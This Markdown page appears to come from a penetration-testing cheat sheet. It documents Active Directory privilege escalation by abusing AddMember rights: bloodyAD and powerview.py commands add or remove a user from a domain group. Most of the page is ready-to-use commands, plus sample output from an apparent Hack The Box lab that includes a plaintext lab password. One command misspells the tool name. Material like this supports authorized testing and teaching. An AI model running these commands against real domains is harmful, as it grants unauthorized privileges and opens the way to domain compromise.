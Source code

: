 ```yaml
---
title: "AddMember"
date: 2024-11-1
tags: ["Powerview", "AddMember", "Domain Controller", "Active Directory", "Windows", "BloodyAD"]
---
```


### Privesc #1: Add User to Group (From Linux)

{{< tab set1 tab1 >}}bloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}powerview.py{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add User to Group

```console
# With password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> --dc-ip <DC_IP> add groupMember '<GROUP>' '<TARGET_USER>'
```

```console
# With Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -k --host <DC> --dc-ip <DC_IP> add groupMember '<GROUP>' '<TARGET_USER>'
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Connect

```console
# With password
sudo ntpdate -s <DC_IP> && powerview '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && powerview 'rebound.htb/oorend:1GR8t@$$4u@dc01.rebound.htb'
Logging directory is set to /home/kali/.powerview/logs/dc01.rebound.htb
[2024-09-24 07:11:06] Channel binding is enforced!
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > 
```

```console
# With Kerberos
sudo ntpdate -s <DC_IP> && sowerview '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k --no-pass
```

#### 2. Add User to Group

```console
Add-DomainGroupMember -Identity '<GROUP>' -Members '<TARGET_USER>'
```

```console {class="sample-code"}
PV > Add-DomainGroupMember -Identity 'servicemgmt' -Members 'oorend'
[2024-09-24 07:13:17] User oorend successfully added to servicemgmt
```

```console
# Check
Get-DomainGroupMember -Identity '<GROUP>'
```

```console {class="sample-code"}
PV > Get-DomainGroupMember -Identity 'servicemgmt'
GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : ppaul
MemberDistinguishedName     : CN=ppaul,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-1951

---[SNIP]---

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : oorend
MemberDistinguishedName     : CN=oorend,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-7682
```

<small>*Ref: [powerview.py](https://github.com/aniqfakhrul/powerview.py)*</small>

{{< /tabcontent >}}

---

### Privesc #2: Remove User from Group (From Linux)

{{< tab set2 tab1 >}}bloodyAD{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# With password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> --dc-ip <DC_IP> remove groupMember '<GROUP>' '<TARGET_USER>'
```

```console
# With Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -k --host <DC> --dc-ip <DC_IP> remove groupMember '<GROUP>' '<TARGET_USER>'
```

{{< /tabcontent >}}
